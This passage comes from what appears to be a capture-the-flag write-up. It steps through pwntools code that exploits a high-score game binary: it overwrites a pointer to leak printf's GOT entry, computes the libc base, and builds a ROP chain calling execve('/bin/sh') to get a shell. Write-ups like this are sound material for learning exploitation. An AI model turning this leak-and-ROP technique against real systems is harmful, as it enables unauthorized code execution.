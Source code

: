 We now want to play the game:

```python
p.sendline(b'2')
```

We now send our 20 pre-calculated guesses to beat the high score, followed by a single wrong guess so the game is over:

```python
for val in rand_values:
    p.sendline(str(val).encode())
p.sendline(b'0')
```

Now we need the address of `printf` in the GOT: 

```python
binary = ELF('../src/example_chal')
printf_addr = binary.got['printf']
```

We then construct the payload. It contains 40 `\x00` characters for padding, which also overrides the high score value to
0, so it is easy to win again when we play a second time.

```python
payload = b'\x00' * 40
payload += p64(printf_addr)
p.sendline(payload)
```

At this point, `highscore_name_ptr` points to the `printf` entry and the `highscore_val` is set to 0. We now show the high score:

```python
p.sendline(b'1')
```

We then extract the bytes that correspond to `highscore_name_ptr` from the output:

```python
printf_addr = u64(p.recv(6) + b'\x00\x00')
```

We can now calculate the libc base address:

```python
libc = ELF('../config/libc-2.37.so')
libc.address = printf_addr - libc.symbols['printf']
```

Building the ROP chain which calls `/bin/sh`:

```python
context.clear(arch='amd64')
rop_chain = ROP([libc])
rop_chain.execve(next(libc.search(b'/bin/sh\x00')), 0, 0)
```

To send the ROP chain, we have to play the game again. But it is easy this time as we beat the high score with 0 score:
